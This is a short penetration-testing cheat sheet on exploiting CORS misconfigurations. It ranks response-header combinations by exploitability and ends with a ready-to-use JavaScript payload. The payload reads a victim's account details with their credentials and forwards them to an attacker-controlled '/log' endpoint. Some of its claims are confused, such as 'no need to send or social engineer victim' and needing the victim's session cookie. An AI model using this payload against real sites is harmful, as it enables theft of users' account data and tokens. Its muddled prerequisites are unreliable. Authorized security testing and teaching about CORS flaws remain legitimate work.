 To Kawili:
=================================================

Cross Origin Resource Sharing: (Exploits and Writeups)

*Attack is initiated by the attacker
*No need to send or social engineer victim 
*Once CORS exploitability is validated, send the following XMLHttp request:

Pre-requisite of attack:
1. CORS misconfiguration (validated through burp or curl)
2. You have session cookie of the victim (or check if this is required) 
3. You know the URL which has CORS misconfiguration and will give you sensitive information like tokens etc 


Ways to exploit CORS:

POORLY IMPLEMENTED, BEST CASE FOR ATTACK:
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true

POORLY IMPLEMENTED, EXPLOITABLE:
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true

BAD IMPLEMENTATION BUT NOT EXPLOITABLE:
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true

or just

Access-Control-Allow-Origin: *



~~~~~~~~
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://victim/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
~~~~~~~~
